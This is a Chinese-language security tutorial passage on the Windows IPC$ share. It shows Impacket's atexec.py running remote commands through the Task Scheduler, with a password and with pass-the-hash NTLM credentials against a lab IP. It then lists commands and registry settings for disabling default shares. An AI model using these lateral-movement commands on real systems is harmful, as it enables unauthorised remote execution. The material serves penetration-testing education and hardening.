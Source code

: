 ![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIpjvXYAfffAZE0NaVK52eHWxia0fO7U5ul0DaPR2icXVEjphuZoE4gyCA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIwyic9hhTUxKUbHYoJR2sVgeBNZJEbLY0Mxjrjh4rjjFUyJUDjZQyicTg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEI18N29PWDH1sd8GUwk3mWruMNbibEp0fIxn5dCbE5u0f0X8UIz7FcWhA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIOWRf0laic2IzOoeDhQeiaOQ9jCJE0FoyOKYVPgu3mUUCiagJPwzic83u8g/640?wx_fmt=png)

### Impacket 中的 atexec.py

Impacket 中的 atexec.py 脚本，就是利用定时任务获取权限，该脚本的利用需要开启 ipc$ 共享。这个脚本仅工作 Windows>=Vista 的系统上。这个样例能够通过任务计划服务（Task Scheduler）来在目标主机上实现命令执行，并返回命令执行后的输出结果 。

```
./atexec.py  xie/hack:x123456./@192.168.10.130  whoami
 ./atexec.py  xie/hack:@192.168.10.130  whoami  -hashes aada8eda23213c027743e6c498d751aa:b98e75b5ff7a3d3ff05e07f211ebe7a8
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEI51jsrYIZzwQ1ursUjtCghD8XbAAXDKckgWUZXusJuLMOcX7yJQUc0A/640?wx_fmt=png)

关闭 IPC$ 共享及其他共享

既然 ipc$ 有一定的危险性，而且对于我们大多数人来说是没啥用的，所以我们执行以下命令关闭共享

1、使用命令关闭：

```
net  share  ipc$    /delete              关闭ipc默认共享
net  share  c$      /delete              关闭C盘默认共享
net  share  admin$  /delete              关闭admin$默认共享
```

![](https://mmbiz.qpic.cn/mmbiz_png/rSyd2cclv2f5Z4QSvmgu0bHZ9vZWUyEIZdAKkeI50huY9tdicD6YYa8zg5y9YeI7Sw7g1icS4gljKb23G1mByD9w/640?wx_fmt=png)

2、修改注册表关闭

限制 IPC$ 缺省共享：

*   HKEY_LOCAL_MACHINE/SYSTEM/CurrentControlSet/Control/Lsa
    
*   Name：restrictanonymous
    
*   Type：REG_DWORD
    
*   Value：0x0(缺省) 0x1 匿名用户无法列举本机用户列表 0x2 匿名用户无法连接本机 IPC$ 共享 说明: 不建议使用 2，否则可能会造成你的一些服务无法启动，如 SQL Server。
    

IPC$ 连接失败的原因及常见错误号
------------------

### 连接失败原因

*   用户名或密码错误
    
*   目标主机没有开启 IPC$ 共享
    
